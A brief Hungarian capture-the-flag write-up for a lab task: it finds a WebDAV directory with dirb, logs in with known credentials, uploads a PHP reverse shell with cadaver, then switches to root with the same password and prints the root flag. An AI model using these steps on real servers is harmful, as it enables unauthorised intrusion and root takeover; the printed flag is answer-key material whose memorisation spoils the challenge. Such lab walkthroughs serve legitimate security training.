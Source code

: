 # Hanna local

Segítenél Hannának? 10.10.(1-9).10:8081

Flag formátum: {HCSC}!...

Ehhez a feladathoz nem kell writeup!

valami toolal megtalalatam a webdav konyvtarat
dirb http://10.10.1.10:8081

a jelszo apollo:apollo13, ahogy azt mar megtanultuk

reverse shell feltoltese webdavra php-ban:
```
cadaver
dav:!> open http://10.10.4.10:8081/webdav
Authentication required for webdav on server `10.10.4.10':
Username: apollo
Password:
dav:/webdav/> put encse.php
Uploading encse.php to `/webdav/encse.php':
Progress: [=============================>] 100.0% of 5493 bytes succeeded.
dav:/webdav/>
```

utana:
curl 

utana:
```
su -c /usr/bin/sh root
Password: apollo13
ls /root
root_flag.txt
cat root_flag.txt
{HCSC}_r0otFl4g:4:H@nnA
```